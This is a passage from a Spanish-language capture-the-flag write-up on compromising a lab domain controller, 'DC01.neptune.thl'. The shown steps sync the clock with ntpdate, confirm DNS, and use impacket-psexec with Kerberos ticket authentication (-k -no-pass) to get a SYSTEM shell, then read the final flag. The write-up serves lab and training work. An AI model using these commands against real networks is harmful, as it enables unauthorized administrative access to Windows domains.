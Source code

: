 Y nos ponemos temporalmente en el mismo horario que esté la máquina víctima con la herramienta **ntpdate**:
```bash
ntpdate -u DC01.neptune.thl
2025-05-15 03:15:33.559101 (-0600) +326.476510 +/- 0.000732 DC01.neptune.thl 192.168.56.10 s1 no-leap
CLOCK: time stepped by 326.476510
```

Si todo está bien configurado, si usas **nslookup** para probar el DNS del DC, nos tendría que resolver y mostrar su información:
```bash
nslookup DC01.neptune.thl
Server:         192.168.56.10
Address:        192.168.56.10#53

Name:   DC01.neptune.thl
Address: 192.168.56.10
```

Ya con todo esto, nos logueamos en la máquina víctima con **impacket-psexec**, indicándole que será por **Kerberos** (`-k`), sin contraseña (`-no-pass`), el dominio y el usuario junto al nombre del servidor DC:
```batch
impacket-psexec -k -no-pass neptune.thl/Administrator@DC01.neptune.thl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC01.neptune.thl.....
[*] Found writable share ADMIN$
[*] Uploading file XZzsOXdt.exe
[*] Opening SVCManager on DC01.neptune.thl.....
[*] Creating service XFYR on DC01.neptune.thl.....
[*] Starting service XFYR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

C:\Windows\system32> whoami
nt authority\system
```
Funcionó correctamente.

Busca la última flag que nos falta:
```batch
C:\> cd Users\Administrator\Desktop
.
C:\Users\Administrator\Desktop> type root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
